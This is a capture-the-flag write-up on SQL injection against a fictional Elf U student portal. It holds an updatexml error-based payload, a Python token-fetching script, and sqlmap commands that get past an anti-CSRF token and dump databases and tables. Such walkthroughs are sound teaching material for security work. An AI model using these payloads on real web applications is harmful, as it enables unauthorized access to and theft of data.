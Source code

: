 9) Retrieve Scraps of Paper from Server
=======================================
Challenge
---------
Difficulty: 4/5 

Gain access to the data on the Student Portal server and retrieve the paper scraps hosted there. What is the name of Santa's cutting-edge sleigh guidance system? For hints on achieving this objective, please visit the dorm and talk with Pepper Minstix.

Answer
------


Solution
--------
1. Discovery
^^^^^^^^^^^^
The following dialog with Krampus indicated that we were looking for information about Krampus.

    As for those scraps of paper, I scanned those and put the images on my server.
    I then threw the paper away.
    Unfortunately, I managed to lock out my account on the server.
    Hey! You’ve got some great skills. Would you please hack into my system and retrieve the scans?

We also had the following dialog from Pepper Minstix:

    Have you had any luck retrieving scraps of paper from the Elf U server?
    You might want to look into SQL injection techniques.
    OWASP is always a good resource for web attacks.
    For blind SQLi, I've heard Sqlmap is a great tool.
    In certain circumstances though, you need custom tamper scripts to get things going!

Pepper Minstix also provided with a link to a blog post titled `SQLMap Tamper Scripts for The Win <https://pen-testing.sans.org/blog/2017/10/13/sqlmap-tamper-scripts-for-the-win>`_

The hint from Pepper Minstix was useful because it showed that SQLMap would be helpful for solving the challenge. It also hinted that we may have to perform some customisations with SQLMap to defeat protection mechanisms. 

1.1. Starting artefacts
"""""""""""""""""""""""
* `Student Portal <https://studentportal.elfu.org/>`_

1.2. Initial investigations with Chrome
"""""""""""""""""""""""""""""""""""""""
The student had two pages which accepted user input and could possibly be exploited:

* Apply Now page
* Check Application Status page

1.2.1. Apply Now page
+++++++++++++++++++++
The **Apply Now** page consisted of an application form to study at Elf U with various user submitted fields.

The form has some checks for user input for fields such as the email address. However these checks are client-side and can easily be circumvented by modifying the relevant DOM elements. In this case you can change the ``type="email"`` attribute to ``type="text"``.

The form is submitted using a POST request. Typical form data looked something like:

.. code-block::

    name=1&elfmail=test%40test.com&program=1&phone=1&whyme=1&essay=1&token=MTAxMDQwMTI2MzM2MTU3ODc1MTk3NDEwMTA0MDEyNi4zMzY%3D_MTI5MzMxMzYxNzEwMDgzMjMzMjg0MDQyLjc1Mg%3D%3D

An interesting thing we noticed was that if you submit an application with an identical email field twice, you receive the following error:

.. code-block::

    Error: INSERT INTO applications (name, elfmail, program, phone, whyme, essay, status) VALUES ('1', '1', '1', '1', '1', '1', 'pending') Duplicate entry '1' for key 'elfmail'

The column names in the INSERT statement are the same as the fields used in the above POST request.

If we try injecting some SQL that is illegal, we obtain an error message the the DBMS is MariaDB.

We decided to attempt an inband XPATH injection in the "First Name" input box. The contents of **First Name** should be ``1', '1', 'test@test.com' or updatexml(1,concat(0x7e,(database())),0) or '','1','1','1','pending'); #``. The remaining fields can be anything that passes the client-side filters (e.g. enter something like **test@test.com** for the Email field). The following information is returned showing that the database name is **elfu**

.. code-block::

    Error: INSERT INTO applications (name, elfmail, program, phone, whyme, essay, status) VALUES ('1', '1', 'test@test.com' or updatexml(1,concat(0x7e,(database())),0) or '','1','1','1','pending'); #', 'test@test.com', '1', '1', '1', '1', 'pending')
    XPATH syntax error: '~elfu'

Performing inband injections based on INSERT quickly became tedious and we decided to take a look at the other page.

1.2.2. Check Application Status page
++++++++++++++++++++++++++++++++++++
The **Check Application Status** page consisted of a form with a single Email field from which you could check your application status.

The form was submitted as a GET request. A typical URL looked something like:

.. code-block::

    https://studentportal.elfu.org/application-check.php?elfmail=test%40test.com&token=MTAxMDQwMTE5Mjk2MTU3ODc1MTg2NDEwMTA0MDExOS4yOTY%3D_MTI5MzMxMzUyNjk4ODgzMjMzMjgzODE3LjQ3Mg%3D%3D

The form has some checks for user input for fields such as the email address. However these checks are client-side and can easily be circumvented by modifying the relevant DOM elements. In this case you can change the ``type="email"`` attribute to ``type="text"``.

Peforming an invalid inband injection such as ``';SELECT * FROM applications;#`` returns the following error:

.. code-block::

    Error: SELECT status FROM applications WHERE elfmail = '';SELECT * FROM applications;#';
    You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'SELECT * FROM applications;#'' at line 1

Exploiting a SELECT query to return data is simpler than using an INSERT query so we decided to concentrate our efforts on this page. 

1.2.3. Token protection
+++++++++++++++++++++++
Both pages that we looked at so far employed a token to protect against automated requests. This also made it more difficult to use an automated tool such as SQLMap.

Before any of the forms was submitted, the code would make a request to https://studentportal.elfu.org/validator.php. A token would be returned in the body of the response. This token would then be submitted as one of the fields during form submission.

.. note::
    With this token protection, performing inband SQL injections works because the form would request the appropriate token.

2. Solving the challenge
^^^^^^^^^^^^^^^^^^^^^^^^
2.1. Modifying SQLmap
"""""""""""""""""""""
SQLMap is a open source penetration testing tool written in Python that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.

To use SQLMap with the Student Portal, we needed to find a way to defeat the token protection. The hints described a possible way of doing this was to utilise the tamper functionality and write a custom module. We found the instructions for doing this a bit finicky, and instead chose to use the ``--eval`` option. This option evaluates the provided Python code before each request.

As shown below, we wrote a simple Python script (validate.py) that we placed in the same directory as the SQLMap tool.

.. code-block:: python

    import requests
    def getToken():
        url = 'https://studentportal.elfu.org/validator.php'
        response = requests.get(url)
        token = response.text
        return token

.. note::
    This module has a dependency on the **requests** library which can be installed using something like ``pip install requests``.

To run SQLMap we need to use something like the following:

.. code-block::

    python sqlmap.py -u "https://studentportal.elfu.org/application-check.php?elfmail=test&token=" --eval="import validate;token=validate.getToken()" -v 3

.. note::
    During the automated testing you may get a prompt about 'token' holding a anti-CSRF token. We **do not** want SQLMap to automatically update this token in further requests.

Running the above analysis returns the following as shows that this page is exploitable.

.. code-block::

    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: elfmail (GET)
        Type: boolean-based blind
        Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
        Payload: elfmail=test' OR NOT 9290=9290#&token=
        Vector: OR NOT [INFERENCE]#

        Type: error-based
        Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: elfmail=test' OR (SELECT 4443 FROM(SELECT COUNT(*),CONCAT(0x7178717671,(SELECT (ELT(4443=4443,1))),0x7170786271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- XAHQ&token=
        Vector: OR (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: elfmail=test' AND (SELECT 8445 FROM (SELECT(SLEEP(5)))EOvD)-- yTjJ&token=
        Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
    ---

2.2. Retrieving the needed information from the database
""""""""""""""""""""""""""""""""""""""""""""""""""""""""
We used the following commands to obtain information about the paper scraps. The output has been truncated to show only information of interest.

2.2.1. List databases
+++++++++++++++++++++
.. code-block::

    python sqlmap.py -u "https://studentportal.elfu.org/application-check.php?elfmail=test&token=" --eval="import validate;token=validate.getToken()" --dbs

    available databases [2]:
    [*] elfu
    [*] information_schema

2.2.2. List tables
++++++++++++++++++
.. code-block::

    python sqlmap.py -u "https://studentportal.elfu.org/application-check.php?elfmail=test&token=" --eval="import validate;token=validate.getToken()" --tables

    Database: elfu
    [3 tables]
    +---------------------------------------+
    | applications                          |
    | krampus                               |
    | students                              |
    +---------------------------------------+

    Database: information_schema
    [78 tables]

2.2.3. Dump the krampus table
+++++++++++++++++++++++++++++
.. code-block::

    python sqlmap.py -u "https://studentportal.elfu.org/application-check.php?elfmail=test&token=" --eval="import validate;token=validate.getToken()" --dump -T krampus

    Database: elfu
    Table: krampus
    [6 entries]
    +----+-----------------------+
    | id | path                  |
    +----+-----------------------+
    | 1  | /krampus/0f5f510e.png |
    | 2  | /krampus/1cc7e121.png |
    | 3  | /krampus/439f15e6.png |
    | 4  | /krampus/667d6896.png |
    | 5  | /krampus/adb798ca.png |
    | 6  | /krampus/ba417715.png |
    +----+-----------------------+

2.3. Reconstructing the paper scraps
""""""""""""""""""""""""""""""""""""
We found information about 6 paper scraps in the previous section. To retrieve the scraps we had to simply append the path to **https://studentportal.elfu.org**

After downloading the images, we pasted them into an image editor and aligned the scraps to form the following document (one piece seems to be missing).

